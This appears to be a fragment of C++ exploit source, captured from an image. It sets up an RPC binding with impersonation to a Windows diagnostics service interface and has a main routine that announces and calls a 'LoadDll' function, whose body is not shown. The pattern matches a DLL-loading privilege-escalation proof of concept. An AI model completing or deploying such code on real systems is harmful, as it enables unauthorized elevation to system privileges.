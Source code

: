     #include "DiagHub.h"

    #pragma comment(lib, "rpcrt4.lib")

    using namespace std;

    RPC_STATUS CreateBindingHandle(RPC_BINDING_HANDLE *binding_handle)
    {
            RPC_STATUS status;
            RPC_BINDING_HANDLE v5;
            RPC_SECURITY_QOS SecurityQOS = {};
            RPC_WSTR StringBinding = nullptr;
            RPC_BINDING_HANDLE Binding;

            StringBinding = 0;
            Binding = 0;
            status = RpcStringBindingComposeW(L"c8ba73d2-3d55-429c-8e9a-c44f006f69fc", L"ncalrpc", 
                    nullptr, nullptr, nullptr, &StringBinding);
            if (status == RPC_S_OK)
            {
                    status = RpcBindingFromStringBindingW(StringBinding, &Binding);
                    RpcStringFreeW(&StringBinding);
                    if (!status)
                    {
                            SecurityQOS.Version = 1;
                            SecurityQOS.ImpersonationType = RPC_C_IMP_LEVEL_IMPERSONATE;
                            SecurityQOS.Capabilities = RPC_C_QOS_CAPABILITIES_DEFAULT;
                            SecurityQOS.IdentityTracking = RPC_C_QOS_IDENTITY_STATIC;

                            status = RpcBindingSetAuthInfoExW(Binding, 0, 6u, 0xAu, 0, 0, (RPC_SECURITY_QOS*)&SecurityQOS);
                            if (!status)
                            {
                                    v5 = Binding;
                                    Binding = 0;
                                    *binding_handle = v5;
                            }
                    }
            }

            if (Binding)
                    RpcBindingFree(&Binding);
            return status;
    }

    extern "C" void __RPC_FAR * __RPC_USER midl_user_allocate(size_t len)
    {
            return(malloc(len));
    }

    extern "C" void __RPC_USER midl_user_free(void __RPC_FAR * ptr)
    {
            free(ptr);
    }

    int wmain(int argc, wchar_t** argv)
    {
                    printf("[+] Loading DLL\n");
                    LoadDll();
            return 0;
    }
